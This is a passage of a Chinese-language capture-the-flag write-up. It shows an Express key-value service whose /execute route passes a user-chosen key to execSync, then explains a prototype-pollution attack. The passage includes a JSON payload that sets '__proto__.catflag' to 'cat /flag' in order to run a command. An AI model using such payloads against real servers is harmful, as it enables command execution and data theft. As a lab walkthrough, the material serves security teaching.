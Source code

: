 ```js
});

// GET /get - Get a key-value pair in the store
app.get("/get", (req, res) => {
  const key = req.query.key;
  const keys = key.split(".");

  let current = store;
  for (let i = 0; i < keys.length; i++) {
    const key = keys[i];
    if (current[key] === undefined) {
      res.json({ message: "Not exists." });
      return;
    }
    current = current[key];
  }

  res.json({ message: current });
});

// GET /execute - Run commands which are constant and obviously safe.
app.get("/execute", (req, res) => {
  const key = req.query.cmd;
  const cmd = cmds[key];
  res.setHeader("content-type", "text/plain");
  res.send(execSync(cmd).toString());
});

app.get("*", (req, res) => {
  res.sendFile(path.join(__dirname, "public", "index.html"));
});

// Start the server
const PORT = 3000;
app.listen(PORT, () => {
  console.log(`KV Service is running on port ${PORT}`);
});
```

发现`cmds`里有一些命令，但显然没有`cat /flag`，而我们又只能通过`execute`接口去执行命令，那要怎么办呢？

注意到我们可以用`set`接口为`current`这个变量设定键值对，而`JavaScript`当中，通过点运算可以获取到的attribute，也可以通过中括号运算获取，赋值也是同理，这样想法就很自然了，这是一个ProtoType污染攻击。

我们直接set：

```json
{
    "key": "__proto__.catflag",
    "value": "cat /flag"
}
```
